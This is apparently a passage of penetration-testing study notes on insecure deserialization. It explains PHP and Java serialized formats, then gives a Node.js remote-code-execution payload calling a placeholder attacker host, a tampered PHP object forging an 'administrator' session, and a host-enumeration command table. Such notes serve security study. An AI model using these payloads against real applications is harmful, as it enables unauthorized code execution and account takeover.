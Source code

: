 ```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
When serialized, this object may look something like this:
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

This can be interpreted as follows:

    O:4:"User" - An object with the 4-character class name "User"
    2 - the object has 2 attributes
    s:4:"name" - The key of the first attribute is the 4-character string "name"
    s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
    s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
    b:1 - The value of the second attribute is the boolean value true

## Java serialization format

Some languages, such as Java, use binary serialization formats. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as ac ed in hexadecimal and rO0 in Base64.

Any class that implements the interface java.io.Serializable can be serialized and deserialized. If you have source code access, take note of any code that uses the readObject() method, which is used to read and deserialize data from an InputStream. 


### Node.js deserialization vulnerability payload [RCE]

```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ping attacker.com',function(error, stdout, stderr) { console.log(stdout) });}()"}
```
### Modifying serialized data types
```js
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```



# Windows
----------------------------------------------------------------------------------------------------------
## Basic enumeration on linux and windows
| **Linux**  | **Windows** | **Purpose of command** |
|------------|-------------|------------------------|
|`whoami`|`whoami`|Name of current user
| `uname -a`|`ver`|Operating system
|`ifconfig`|`ipconfig /all`|Network configuration
|`netstat -an`|`netstat -an`|Network connections
|`ps -ef`|`tasklist`|Running processes
